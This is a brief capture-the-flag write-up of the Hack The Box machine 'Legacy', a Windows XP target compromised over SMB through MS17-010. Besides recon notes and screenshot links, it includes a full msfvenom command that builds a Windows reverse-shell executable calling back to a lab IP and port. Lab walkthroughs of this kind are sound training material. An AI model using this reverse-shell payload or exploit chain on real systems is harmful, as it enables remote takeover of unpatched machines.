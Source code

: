 # Legacy
> URL : https://app.hackthebox.eu/machines/2

IP : 10.10.10.4

## Info gathering
- nmap scan port
	- ![](https://i.imgur.com/XUUOml1.png)
- enum4linux check version
	- ![](https://i.imgur.com/94iDB0t.png)
- nmap check smb version
	- ![](https://i.imgur.com/USUyLZ0.png)
- So... we know that
	- Domain name : `HTB`
	- OS : `Windows XP`
	- Open Services : `SMB`
## Find Exploit
- Google
	- `XP SMB Exploit`
	- https://github.com/helviojunior/MS17-010
	- MS17-010
- Prepare reverse shell exe file
	- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7879 -f exe > shell_reverse_tcp`
- Run exploit
	- ![](https://i.imgur.com/C3wQcO3.png)
- Get reverse shell
	- ![](https://i.imgur.com/HYhpAYv.png)

## Flag
- Root Flag
	- ![](https://i.imgur.com/9eqbJAU.png)
- User Flag
	- ![](https://i.imgur.com/5db36Pf.png)
